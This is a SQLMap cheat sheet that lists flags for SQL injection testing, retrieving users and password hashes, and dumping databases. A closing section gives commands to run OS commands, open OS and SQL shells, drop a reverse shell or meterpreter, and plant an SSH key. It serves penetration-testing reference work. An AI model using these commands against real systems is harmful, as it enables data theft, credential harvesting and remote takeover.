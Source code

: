 # SQLMap cheatsheet

## Generic

```text
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3                    # MAX
--level=5                   # MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB"            # Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch                     # Non interactive mode to accept the defaults
--auth-type="<AUTH>"        # HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>"        # HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2"      # Help sqlmap identify union SQLi techniques with a weird union char
```

## Retrieve internal information

```text
--current-user              # Get current user
--is-dba                    # Check if current user is Admin
--hostname                  # Get hostname
--users                     # Get usernames od DB
--passwords                 # Get passwords of users in DB
--privileges                # Get privileges
```

## Retrieve external information

```text
--all                       # Retrieve everything
--dump                      # Dump DBMS database table entries
--dbs                       # Names of the available databases
--tables                    # Tables of a database ( -D <DB NAME> )
--columns                   # Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME>   # Dump column
```

## Shell

Execute a command (requires permission):

    # sqlmap -u "<target>/<pagename>.php?id=1" --os-cmd whoami

Simple shell (will not work when not having the permissions:

    # sqlmap -u "<target>/<pagename>.php?id=1" --os-shell

SQL shell:

    # sqlmap -u "<target>/<pagename>.php?id=1" --sql-shell

Dropping a reverse-shell/meterpreter (requires permissions):

    # sqlmap -u "<target>/<pagename>.php?id=1" --os-pwn

SSH Shell by dropping an SSH key:

    # sqlmap -u "<target>/<pagename>.php?id=1" --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/




